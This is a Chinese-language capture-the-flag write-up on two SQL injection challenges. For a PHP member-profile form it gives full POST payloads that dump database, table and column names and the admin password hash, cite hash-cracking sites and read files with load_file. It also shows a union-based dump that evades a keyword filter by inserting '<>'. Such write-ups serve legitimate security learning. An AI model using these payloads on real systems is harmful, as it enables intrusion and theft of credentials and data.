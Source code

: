 根据参考的文章，先注册一个用户，然后去会员中心修改个人信息，可以看到表单中每一项对应什么参数。然后构造 payload：
```
/member/userinfo.php?job=edit&step=2
```
POST 数据：
```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select database()) where uid=3#
```
首先 `uid` 对应自己账户的 `uid`，在个人信息处可以在 url 中看到。注入的具体原理参考 “漏洞参考” 文章，注入点是参数 `provinceid`，注意不是 `address`。

这样可以在个人信息页面的 “联系地址” 一栏得到数据库名 `blog`。接下来爆表名：
```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where uid=3#
```
我们关心的是表 `admin`。爆列名，注意单双引号会被转义所以不能使用，可以用十六进制绕过：
```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select group_concat(column_name) from information_schema.columns where table_name=0x61646d696e) where uid=3#
```
爆用户名和密码：
```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select group_concat(username,0x7e,password) from admin) where uid=3#
```
得到用户名 `admin`，密码 MD5 `2638127c92b79ee7901195382dc08068`，普通 MD5 网站解不出来，在 `https://hashkiller.co.uk/Cracker` 和 `http://www.chamd5.org/` 上破解出来是 `4b10b488e4c8`，但是用这个密码登录不了，可能方向错了吧。

无奈只能扫下目录发现 `flag.php`，然后利用 SQL 读文件：
```
truename=xxxx%0000&Limitword[000]=&email=123456@qq.com&provinceid=,address=(select load_file(0x2f7661722f7777772f68746d6c2f666c61672e706870)) where uid=3#
```

发现联系地址这次变成了空白，F12 得到 `flag.php` 源码从而得到 flag。

## SQL
过滤了很多关键字，绕过技巧是用 `<>` 来分割：
```sql
id=1 o<>rder by 1
```
发现 `by 4` 的时候无回显但 `by 3` 的时候有，说明共 3 列。
```sql
id=1 union se<>lect 1,2,3
```
得到回显 `2`。接下来正常注入：
```sql
id=1 union se<>lect 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
-- info, users
id=1 union se<>lect 1,group_concat(column_name),3 from information_schema.columns where table_name='info'
-- id,title,flAg_T5ZNdrm
id=1 union se<>lect 1,flAg_T5ZNdrm,3 from info
-- flag{...}
```
